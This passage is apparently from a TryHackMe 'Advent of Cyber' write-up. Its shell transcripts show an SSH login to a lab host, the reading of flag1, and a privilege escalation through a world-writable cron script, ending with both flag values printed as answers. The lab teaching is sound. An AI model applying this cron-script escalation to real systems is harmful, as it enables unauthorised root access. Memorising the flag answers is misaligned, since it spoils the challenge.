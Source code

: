 ```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh sam@10.10.163.132 -p 4567
The authenticity of host '[10.10.163.132]:4567 ([10.10.163.132]:4567)' can't be established.
ECDSA key fingerprint is SHA256:/54HkiaVZN46gtAAt5bxFK6rEKyPHEGbkJ1sddd3lpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.163.132]:4567' (ECDSA) to the list of known hosts.
sam@10.10.163.132's password: 
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
sam@ip-10-10-163-132:~$ ls 
flag1.txt
sam@ip-10-10-163-132:~$ cat flag1.txt 
THM{dec4389bc09669650f3479334532aeab}
sam@ip-10-10-163-132:~$
```

`THM{dec4389bc09669650f3479334532aeab}`

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```
sam@ip-10-10-163-132:~$ ls -l /home
total 12
drwxr-xr-x 3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx 2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x 6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
sam@ip-10-10-163-132:~$ ls -l /home/scripts/
total 8
-rwxrwxrwx 1 ubuntu ubuntu 14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root    5 Dec 19  2019 test.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ nano /home/scripts/clean_up.sh 
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-----r-- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ cat /home/ubuntu/flag2.txt 
THM{b27d33705f97ba2e1f444ec2da5f5f61}
sam@ip-10-10-163-132:~$
```

`THM{b27d33705f97ba2e1f444ec2da5f5f61}`
